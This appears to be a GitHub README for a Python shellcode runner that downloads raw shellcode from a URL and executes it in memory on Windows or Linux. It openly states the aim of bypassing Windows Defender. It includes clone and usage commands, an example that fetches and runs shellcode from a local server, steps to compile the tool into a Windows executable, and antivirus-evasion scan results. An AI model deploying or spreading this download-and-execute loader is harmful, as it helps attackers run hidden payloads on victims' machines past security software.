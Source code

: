 # buffshark-shellcode-runner

## Python Shellcode Runner for windows and linux
This script utilizes mmap(for linux) and win32 api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. Move directory: `cd buffshark-shellcode-runner/`

```
└─# python3 buffshark.py -h                                       
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
usage: buffshark.py [-h] -u  -a

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -u , --url            URL to raw shellcode file
  -a , --architecture   Choose OS
  ```
                                     
4. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
5. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`

```
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
[+] Downloading shellcode...
[+] 49 Bytes Downloaded!
[+] Running shellcode in memory...
README.md  antiscan.PNG  antiscanres.PNG  buffshark.exe  buffshark.py  shell.bin  shellcode
```

## AV Scan
As of 11/22/2021, Windows Defender does not flag this shellcode runner.

1/26 AV has flagged buffshark on antiscan.me

![image](antiscanres.PNG)


![image](antiscan.PNG)
